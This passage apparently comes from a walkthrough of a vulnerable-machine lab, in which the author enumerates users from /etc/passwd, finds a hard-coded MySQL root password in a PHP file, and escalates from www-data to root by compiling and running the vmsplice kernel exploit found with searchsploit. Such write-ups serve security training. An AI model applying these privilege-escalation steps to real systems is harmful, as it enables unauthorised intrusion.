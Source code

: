 I was logged in as www-data, and there were no sudo privileges setup for this user account. I checked the contents of /etc/passwd and found only a few users had shell access to the system:

```
lsanderson:x:1000:114:Lyle Sanderson:/home/lsanderson:/bin/bash
cfinnerly:x:1001:100:Chuck Finnerly:/home/cfinnerly:/bin/bash
ddonnovan:x:1002:100:David Donnovan:/home/ddonnovan:/bin/bash
skrymple:x:1003:100:Shelly Krymple:/home/skrymple:/bin/bash
amckinley:x:1004:100:Agustin Mckinley:/home/amckinley:/bin/bash
```

Unfortunately I hadn't cracked any of those user's passwords yet. I checked /var/mail but it was empty. I found a directory called /var/www/dev which contained a PHP file that listed the MySQL password for the root user.

```
$db_host = 'localhost';
 $db_user = 'root';
 $db_pass = 'dynamo59956783';
 $db_name = '_zincftp_data';
 $conn = mysql_connect($db_host, $db_user, $db_pass) or die("Unable to connect to MySQL");
 mysql_select_db($db_name,$conn) or die("Could not select Database");
```

I tried to SSH to the server again as root with this password, but the attempt failed. /var/www/htdocs contained a similar file, except the database credentials were for phpMyAdmin.
I checked out the processes that were running, looked at the crontab files, and looked for any interesting files that might elevate my current privileges. I found several image files and a couple of RAR files that were password protected. I used crark to try to crack the passwords for the RAR files, but that proved fruitless. I checked the image files for any hidden messages using stegdetect but came up empty.

I started looking for local exploits, and started off with local kernel exploits. The server was running on 2.6.22-14. Using Google, I found references to a vmsplice local root exploit. I checked exploit-db and found them:

```
# ./searchsploit vmsplice
 Description                                                                 Path
--------------------------------------------------------------------------- -------------------------
Linux Kernel 2.6.17 - 2.6.24.1 vmsplice Local Root Exploit                  /linux/local/5092.c
Linux Kernel 2.6.17 - 2.6.24.1 vmsplice Local Root Exploit                  /linux/local/5092.c
Linux Kernel 2.6.17 - 2.6.24.1 vmsplice Local Root Exploit                  /linux/local/5092.c
Linux Kernel 2.6.23 - 2.6.24 vmsplice Local Root Exploit                    /linux/local/5093.c
Linux Kernel 2.6.23 - 2.6.24 vmsplice Local Root Exploit                    /linux/local/5093.c
Linux Kernel 2.6.23 - 2.6.24 vmsplice Local Root Exploit                    /linux/local/5093.c
```

I transferred 5092.c and 5093.c to ahuxley's home directory via FTP, then using www-data, copied them over to /tmp. I decided to copy both over because in some cases one exploit will fail while another will work right off the bat, so better to just have them all ready to go.
I compiled 5092.c and ran the executable and got a root shell instantly! The game was over, the server had been successfully compromised.

```
$ cp /home/ahuxley/web/*.c . 
$ ls -latr
total 20
drwxr-xr-x 21 root     root     4096 Dec  5  2010 ..
-rw-r--r--  1 www-data www-data 2883 Apr  7 15:43 5093.c
-rw-r--r--  1 www-data www-data 6293 Apr  7 15:43 5092.c
drwxrwxrwt  2 root     root     4096 Apr  7 15:43 .
$ ls -l
total 12
-rw-r--r-- 1 www-data www-data 6293 Apr  7 15:43 5092.c
-rw-r--r-- 1 www-data www-data 2883 Apr  7 15:43 5093.c
$ gcc -o 5092 5092.c
$ ./5092
```